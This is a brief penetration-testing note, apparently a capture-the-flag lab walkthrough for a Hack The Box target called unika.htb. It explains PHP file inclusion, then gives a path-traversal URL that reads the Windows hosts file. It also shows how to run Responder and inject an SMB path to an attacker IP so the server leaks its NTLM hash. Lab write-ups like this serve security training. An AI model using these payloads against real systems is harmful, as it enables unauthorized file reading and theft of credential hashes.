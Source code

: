 ## File Inclusion Web
What is it?

```html
File 1 --> vars.php
<?php
$color = 'green';
$fruit = 'apple';
?>
#############################################
File 2 --> test.php
<?php
echo "A $color $fruit"; // output = "A"
include 'vars.php';
echo "A $color $fruit"; // output = "A green apple"
?>
```

if there is a path variable try to inject something for example:

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```


In the PHP configuration file php.ini , "allow_url_include" wrapper is set to "Off" by default, indicating that
PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if
allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs.
In our case, we can misuse this functionality to steal the NTLM hash


What can be done if windows server: 

### SMB

```sh
git clone https://github.com/lgandx/Responder
```
Verify that the Responder.conf is set to listen for SMB requests.

edit resolver conf if necessary
```sh
cat Responder.conf


sudo python3 Responder.py -I tun0
```

With the SMB server running, we can now try to include the file from the server


```sh
http://unika.htb/?page=//<yourIP>/somefile

http://unika.htb/?page=//10.10.15.71/somefile
```